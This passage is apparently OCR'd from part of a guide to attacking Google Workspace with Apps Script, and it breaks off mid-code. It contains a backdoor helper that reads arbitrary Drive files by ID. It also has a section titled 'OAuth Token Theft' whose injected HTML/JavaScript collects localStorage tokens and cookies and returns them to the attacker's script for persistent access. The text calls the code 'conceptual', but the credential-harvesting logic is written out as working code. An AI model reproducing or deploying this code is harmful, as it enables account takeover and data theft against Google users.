 ```javascript
    });
  }
  
  return fileList;
}

function readFile(fileId) {
  // Read content of a specific file
  try {
    const file = DriveApp.getFileById(fileId);
    if (file.getMimeType() === 'application/vnd.google-apps.document') {
      return DocumentApp.openById(fileId).getBody().getText();
    } else {
      // For binary files, we could convert to base64 or provide metadata
      return {
        name: file.getName(),
        size: file.getSize(),
        type: file.getMimeType(),
        cannotRead: 'Binary or unsupported file type'
      };
    }
  } catch (e) {
    return { error: e.toString() };
  }
}

// Additional backdoor functions would be implemented here
```

### 4. OAuth Token Theft via Apps Script

Scripts can be used to steal and exfiltrate OAuth tokens for persistent access:

```javascript
// NOTE: This is a simplified conceptual example
// Actual implementation would depend on available exploits and vulnerabilities

function attemptTokenExtraction() {
  // This is a conceptual representation
  // Direct token extraction is not usually possible due to security measures
  // But various techniques might be attempted depending on current vulnerabilities
  
  try {
    // Approach 1: Attempt to access token through client-side vulnerabilities
    // Create HTML with JavaScript that attempts to extract tokens from localStorage or cookies
    const html = HtmlService.createHtmlOutput(`
      <script>
        // Attempt to extract tokens from various storage locations
        const tokens = {
          localStorage: Object.keys(localStorage)
            .filter(key => key.includes('token') || key.includes('auth'))
            .reduce((obj, key) => {
              obj[key] = localStorage.getItem(key);
              return obj;
            }, {}),
          cookies: document.cookie
        };
        
        // Send back to script
        google.script.run.receiveTokens(tokens);
      </script>
    `);
    
    // Show the HTML briefly to execute the script
```